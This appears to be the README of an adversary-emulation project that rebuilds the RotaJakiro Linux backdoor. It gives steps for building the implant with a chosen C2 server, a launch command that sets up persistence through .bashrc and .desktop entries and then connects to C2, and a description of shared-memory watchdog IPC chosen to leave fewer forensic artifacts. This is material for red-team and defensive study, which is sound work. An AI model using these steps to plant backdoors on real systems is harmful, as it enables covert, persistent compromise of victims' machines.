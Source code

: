 ## Rota
[RotaJakiro](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)(Rota) is the Linux implant believed to be leveraged by Ocean Lotus. This repo contains the code to emulate the Linux implant based on threat reports listed in the references section below along with reverse engineering efforts by the ATT&CK team.

## Requirements
* Make
* gcc

## For Operators
### Execution
Upon building the artifact, execute the following command to start rota. The following command will create the persistence locations, and copy rota to the appropriate locations on the file system. By killing the "rota-release" initial binary, the watchdog process will then spawn the follow on proceses and connect to the C2 server.

``` sh
nohup ./rota-release&; sleep 5; pkill rota-release
```

## For Developers
### Building
1. Modify Makefile to specify C2 server and C2 port

``` sh
#update Makefile here
C2_SERVER='"10.10.2.228"'
C2_PORT=1443
```

2. Run make to build release/debug executables and an example shared objection for exeuction

``` sh
$> make all
```

* Buidling with Docker (optional)
A Dockerfile is also provided to install a build environment and produce a rota executable. Since Rota is a dynamically compiled ELF binary, this ensure no glibc issues during execution.

``` sh
$> docker build . -t attack:rota; # build the container image
$> docker run --name rota attack:rota; # run the container image to produce the ELF executable
$> docker cp rota:/opt/bin/rota .; # copy rota to local directory
```

Now that you have a built version of rota, follow the documentation in the Emulation plan to copy it to the destintion folder.

### Troubleshooting Docker Builds

If you've already executed a container with the name of "rota", an error similar to the one shown below will be displayed.
``` sh
docker: Error response from daemon: Conflict. The container name "/rota" is already in use by container "7d5835315af678be4499b816b20b137cd76f77987c81c18c50df70a4b819a206". You have to remove (or rename) that container to be able to reuse that name.
See 'docker run --help'.
```

To fix this, either change the name of the container you're running via:

``` sh
$> docker run --name rota2 attack:rota;
```

Or remove the old stopped container via:

``` sh
$> docker rm rota;
```

## Host Artifacts

## Persistence Overview
Upon initial launch of Rota, the binary checks whether or not its running as root, and then takes persistence actions baesd on this result. Non-root execution results in the rota binary being copied to ```$HOME/.gvfsd/profile/gvfsd-helper``` and ```$HOME/.dbus/.sessions/session-dbus```.
Corresponding lock files are also created which prevent's Rota from continously spawning (TODO: Netlab 360 citation here).

Non-root persistence is achieved via a modified ```.Desktop``` file (TODO: TID HERE) along with adding an entry to ```.bashrc```(TODO: TID HERE) which spawns ```gvfsd-helper``` on boot. (TODO: Netlab 360 citation here).

## IPC Overview

During execution, ```gvfsd-helper``` creates shared memory to communicate its pid to another RotaJakiro process, "```session-dbus```". Each process writes its pid to this shared memory location to ensure the other process will re-spawn it, should the process die. This "alive check" is achieved via checking for PID entries within ```/proc/```. If no entry exists, the surviving process will respawn the other.

### IPC Syscalls Explained

The RotaJakiro reports specify the use of shared memory via [POSIX Shared Memory functions](https://man7.org/linux/man-pages/man7/shm_overview.7.html). 
The implementation of Rotajakiro within this repo hereby referred to as "rota", uses ```shmget``` to create a key of ```0x64b2e2```with a memory allocation of 8 bytes.
This key and associated function ```shmget``` were chosen from reverse engineering RotaJakiro sample [0958e1f4c3d14e4de380bda4c5648ab4fa4459ef8f5daaf32bb5f3420217af32](https://www.virustotal.com/gui/file/0958e1f4c3d14e4de380bda4c5648ab4fa4459ef8f5daaf32bb5f3420217af32).
Notably, this function call **does not** create a file within ```/dev/shm/``` whereas ```shm_open``` does.  This limits the presence of additional file artifacts for DFIR professionals.

The function below demonstrates the creation of shared memory with the result being stored in variable shmid.

``` sh
int shmid = shmget(0x64b2e2, 8, IPC_CREAT | 0666);
```

The [ipcs](https://man7.org/linux/man-pages/man1/ipcs.1.html) utility can be used to inspect that the shared memory has been appropriately created.

```
$> ipcs

------ Shared Memory Segments --------
key        shmid      owner      perms      bytes      nattch     status
0x00000000 8          gdev       600        524288     2          dest
0x00000000 16         gdev       600        524288     2          dest
0x0064b2e2 20         gdev       666        8          0
```

To manually remove this key, execute the following command:

``` sh
ipcrm -M 0x0064b2e2
```

The 8 bytes created by ```shmget``` are then used to store both the main C2 process of Rotajakiro "```gvfsd-helper```" and the supplemental watch dog process "```session-dbus```".
The first four bytes store the process id belonging to ```gvfsd-helper```, and the last four store ```session-dbus```'s process id.

``` sh
[ gvfsd-pid ][ session-dbus ] // 8 bytes of memory
```


## References
* [RotaJakiro: A long lived secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)
* [RotaJakiro, The Linux version of Ocean Lotus](https://blog.netlab.360.com/rotajakiro_linux_version_of_oceanlotus/)
* [The New and Improved macOS Backdoor from Ocean Lotus](https://unit42.paloaltonetworks.com/unit42-new-improved-macos-backdoor-oceanlotus/)
